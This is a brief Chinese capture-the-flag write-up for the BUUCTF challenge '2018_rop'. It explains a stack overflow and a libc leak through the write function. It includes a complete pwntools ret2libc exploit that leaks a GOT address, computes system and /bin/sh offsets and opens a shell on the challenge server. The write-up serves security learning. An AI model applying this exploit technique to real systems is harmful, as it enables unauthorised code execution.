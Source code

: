 ### Write 泄露 libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67a72ed7d0e0a243d4fd0eef.png)

代码很简单，直接给出了存在漏洞的函数

![](https://pic1.imgdb.cn/item/67a72ef4d0e0a243d4fd0ef2.png)

明显存在栈溢出，但是没有给出 system 及 /bin/sh，需要泄露 libc

![](https://pic1.imgdb.cn/item/67a72f1bd0e0a243d4fd0ef4.png)

plt 表中给出了 write，可以调用 write 函数打印 write 函数实际在 libc 中的地址

![](https://pic1.imgdb.cn/item/67a72f70d0e0a243d4fd0ef6.png)

构造 payload

```python
from pwn import *

p = remote('node5.buuoj.cn',27605)
elf = ELF('./2018_rop')

write_got = elf.got['write']
write_plt = elf.plt['write']
main = 0x080484c6

payload = b'a' * 0x8c + p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(0x20)

p.sendline(payload)
write_add=u32(p.recv(4))

system = write_add - 0xa89e0
binsh = write_add + 0x961df

payload = b'a' * 0x8c + p32(system) + p32(0) + p32(binsh)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67a72de1d0e0a243d4fd0ec5.png)